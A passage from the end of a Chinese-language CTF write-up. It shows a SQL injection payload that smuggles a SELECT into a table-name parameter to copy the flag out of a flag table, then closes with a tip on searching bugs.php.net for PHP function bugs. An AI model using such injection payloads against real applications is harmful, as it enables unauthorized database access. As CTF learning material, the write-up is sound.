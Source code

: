 得到表名和列名，再从中复制出flag:

```
table_name=aaa as select flag_2a2d04c3 as[&amp;columns[0][name]=]from flag_bf1811da;&amp;columns[0][type]=2
```

[![](./img/200927/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/dm/1024_913_/t0137449c3a6baf5e5c.png)



## 总结

CTF中经常考察一些函数的小bug，但是我们在做题的时候如果没见过又不知道怎么搜索。这里给刚入门的同学分享找php函数bug的一个小技巧：`funcName site:bugs.php.net`。基本所有的php相关的问题都会收录在bugs.php.net。
